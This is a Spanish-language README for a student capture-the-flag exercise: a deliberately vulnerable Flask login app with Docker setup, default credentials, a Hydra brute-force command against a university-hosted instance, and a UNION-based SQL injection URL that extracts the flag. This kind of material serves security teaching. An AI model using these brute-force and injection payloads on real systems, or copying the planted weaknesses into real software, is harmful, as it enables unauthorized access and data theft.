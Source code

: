 <div align="center">
  <h2><strong>Aplicacion Web Vulnerable - Equipo ESHS - DSA</strong></h2>
  
  <a href="https://github.com/reinosofrancisco/Aplicacion-Vulnerable-2022"><img src="https://img.shields.io/badge/DSA-v1.0-blue?style=plastic&logo=github"/></a>   



<table>
  <tr>
    <th>Autores</th>
    <th>Apellido</th>
    <th>Nombre</th>
  </tr>
  <tr>
    <td> &#9745; </td>
    <td>Adra</td>
    <td>Federico</td>
  </tr>
  <tr>
    <td> &#9745; </td>
    <td>Alfonsin</td>
    <td>Jeronimo</td>
  </tr>
  <tr>
    <td> &#9745; </td>
    <td>Reinoso</td>
    <td>Francisco</td>
  </tr>
</table>


---

## Dockerfile

```docker
FROM python:3.6.6-alpine3.8

ENV FLASK_APP /www/app.py
ENV FLASK_DEBUG 1
ENV FLASK_RUN_PORT 8888

RUN apk add bash gcc musl-dev mysql mariadb-dev build-base

ADD entrypoint.sh /entrypoint.sh

RUN mkdir /www

EXPOSE 8888

ENTRYPOINT [ "/entrypoint.sh" ]
```

## Docker-Compose.yml

```yml
version: '3'

services:

  login:
    container_name: trabajo-integrador-eshs
    image: practica2
    restart: always
    volumes:
      - "./python_login/www/:/www/"
    ports:
      - 42069:8888

```

## ¿Como setear una flag?

Ir al archivo `trabajo_integrador/ESHS/python_login/www/app.py` 

La flag esta definida en el codigo. <br>
Se debe eliminar el archivo `trabajo_integrador/ESHS/python_login/www/test.db` <br>
Descomentar la siguiente seccion de codigo en _app.py_ :
```python
#FLAG = "flag{FLAG_NAME}" 
#db.create_all()
#db.session.add(User(username='admin', password='admin',email='',role='adminFalso'))
#db.session.add(User(username='su', password='qwerty',email='yonosoyCarlos@carlosMail.com',role='adminReal'))
#db.session.add(User(username='carlos', password='bien hecho', email='felicitaciones@quetengasunhermosodia.com.ar.us.xDDDD.saludosbrodarrrrrrrrr',role=f'{FLAG}'))
#db.session.commit()
```

Si por alguna razon no tiene docker corriendo:
```
sudo systemctl unmask docker
systemctl start docker
```

Ejecutar `./run.sh` para correr la aplicacion. <br>
Detener la aplicacion y volver a comentar el codigo anteriormente mencionado. <br>
Recuerde ejecutar `docker-compose down`. <br>
Volver a ejecutar `./run.sh` para correr la aplicacion. <br>

## ¿Como explotar la vulnerabilidad?

Vulnerabilidad en el `/login` <br>
   El usuario ingresa con credenciales por defecto. <br>
   Estas credenciales son las que se utilizan para el login: <br>
    <table>
      <tr>
        <th>Username</th>
        <th>Password</th>
      </tr>
      <tr>
        <td>admin</td>
        <td>admin</td>
      </tr>
    </table>

Vulnerabilidad en el `/loginCarlos` <br>
   El usuario ingresa con credenciales por muy usuales. <br>
   Si bien el usuario es medianamente mas rebuscado, sigue siendo el usuario por defecto en varias aplicaciones. <br>
   Estas credenciales son las que se utilizan para el loginCarlos: <br>
    <table>
      <tr>
        <th>Username</th>
        <th>Password</th>
      </tr>
      <tr>
        <td>su</td>
        <td>qwerty</td>
      </tr>
    </table>

Notar que como los mensajes de error son relativamente aleatorios, uno pensaría que esto inutiliza Hydra. Sin embargo, dejamos de todas formas el mismo mensaje de error en caso de que el **username** sea correcto. <br>
Una vez averiguado el mismo, el mensaje de error para distintas contraseñas sí es igual:
<span style="color: #FF4000;">"Clave incorrecta! :D"</span>

Ejemplo con Hydra:

```
hydra -l su -P rockyou.txt -V "https-form-post://eshs2022.dsa.linti.unlp.edu.ar/loginCarlos:username=^USER^&password=^PASS^:F=Clave incorrecta"
```

Una vez que se explota la vulnerabilidad, se obtiene el <br> `/infoUsuario?username=su` <br>
En este caso, se puede hacer una Inyeccion SQL para obtener datos de la Base de Datos. <br> 
Si queremos acceder directamente a la flag, usamos el payload:

```
http://localhost:42069/infoUsuario?username=asd' UNION SELECT username,username,role,role,role FROM user WHERE username!='admin' AND username!='su
```
Se puede ver entonces que la flag se encuentra como: <br>
`<a href="mailto:flag{FLAG_NAME}">flag{FLAG_NAME}</a>`


## Hint para el CTF

La hint que proponemos es: <br>
Pista para la pistita -> 64-62-58-45-32

</div>
